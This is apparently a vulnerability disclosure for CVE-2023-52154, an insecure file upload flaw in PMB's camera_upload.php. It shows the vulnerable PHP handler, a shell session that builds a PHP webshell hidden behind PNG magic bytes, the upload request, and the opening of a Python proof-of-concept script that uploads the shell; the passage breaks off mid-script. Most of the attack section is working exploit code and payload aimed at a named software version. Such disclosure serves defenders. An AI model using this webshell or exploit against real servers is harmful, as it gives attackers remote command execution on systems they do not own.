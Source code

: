 ### CVE-2023-52154: Insecure File Upload in camera_upload.php

Additionally, another arbitrary file upload vulnerability was identified in the **camera_upload.php** component. Similar to the previous file upload vulnerability, it allows the upload of PHTML files that are accessible through the application's webroot (e.g. **/pmb/uploaded_file.phtml**) to achieve remote code execution on the server.

In the following code, the base64 encoded value sent using the data URI scheme (data://) that refers to the image content is extracted and then stored on the server.

```php
try {
    $uploadImage = new UploadImage($dir, $filename);

    $filteredData = explode(',', $_POST['imgBase64']) ?? [];
    $imageString = base64_decode($filteredData[1] ?? "");

    $uploadImage->setImageString($imageString);
} catch (\Exception $e) {
    response(0, $e->getMessage());
}

if ($uploadImage->moveImage()) {
    response(1, "File uploaded !");
}
```

In this case, it was necessary to include the magic bytes of a PNG image in the file to be uploaded:

```bash
root@ubuntu:/var/www/html/pocs# echo iVBORw0KGgo= | base64 -d | xxd
00000000: 8950 4e47 0d0a 1a0a                      .PNG....
root@ubuntu:/var/www/html/pocs# echo iVBORw0KGgoAAAANSUhEUgAAPD9waHAgaWYoaXNzZXQoJF9HRVRbJ2NtZCddKSl7c3lzdGVtKCRfR0VUWydjbWQnXSk7fSA/Pg== | base64 -d > file.png
root@ubuntu:/var/www/html/pocs# file file.png
file.png: PNG image data, 15423 x 1885892640, 105-bit
root@ubuntu:/var/www/html/pocs# cat file.png
PNG

IHDR<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```

The **PHTML** webshell is uploaded through the path **"/camera_upload.php"**. The "data://" scheme is employed to specify both the file type (image/png) and the content encoding (base64).

```text
POST /camera_upload.php
Host: 127.0.0.1
Cookie: PhpMyBibli-LOGIN=admin; PhpMyBibli-SESSID=
```

The following proof of concept was successfully tested and exploited in PMB version 7.4.6.

```python
#!/usr/bin/env python3
import warnings
warnings.filterwarnings("ignore")
import requests
import argparse
import random
import string

def upload_webshell(url, cookies, headers, filename):
    data = {"upload_filename": "{0}.phtml".format(filename), "imgBase64": "data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAPD9waHAgaWYoaXNzZXQoJF9HRVRbJ2NtZCddKSl7c3lzdGVtKCRfR0VUWydjbWQnXSk7fSA/Pg=="}
    url = "{0}/camera_upload.php".format(url)
```